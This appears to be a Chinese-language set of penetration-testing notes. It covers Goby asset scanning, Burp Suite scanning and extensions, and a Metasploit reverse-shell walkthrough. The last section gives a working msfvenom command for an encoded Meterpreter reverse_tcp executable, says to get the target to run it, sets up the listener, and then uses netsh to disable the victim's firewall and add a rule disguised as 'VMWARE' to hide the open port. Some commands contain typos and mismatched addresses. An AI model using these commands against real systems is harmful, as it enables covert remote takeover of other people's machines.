 ## Goby - Attack surface mapping
https://github.com/gobysec/Goby
漏洞扫描 资产收集
Layer 子域名挖掘机4.2纪念版

## Burp Suite
扫描方式
1.New Scan
2.抓包右击 Enagement tools - DisCover Content

Intruder攻击  http://www.cnblogs.com/yufusec/p/9179625.html

Comparer: 抓包/Repeater: 右击 - Send to Comparer

### Extensions

J2EEScan
Turbo Intruder
jython.jar
fakeIP.py
1.Extender - Options - Python Envrionment 添加 jython
2.Extender - Extensions - Burp Extensions  - Add 添加 fakeip
在Intruder中可以在 Payloads - Payload type - Extension-generated
                            - Payload Options - Select generator - fakeIp
                            * 取消勾选 Payload Encoding,否则.被转义
                            


## msf反弹shell

01 msf反弹shell
首先生成一个payload:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.2.24 lport=5555 -f exe -o xx.exe -e x86/shikata_ga_nai -i 8
```
将生成的payload发送给目标机器并让其执行

02 配置反弹会话处理程序:
```bash
Use exploit/multi/handler
Set payload windows/meterpreter/reverse_tcp
Set LHOST 192.168.1.227
Set LPOST 5555
Exploit
```
返回shell

03 通过shell关闭防火墙

shell ( execute -f cmd -i-H)
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
通过策略添加防火墙规则隐蔽行为:
netsh advfirewall set add rule name= "VMWARE" protocol=TCP dir=in localport=5555 action=allow
netsh firewall add portopening TCP 5555 "VMWARE" ENABLE ALL

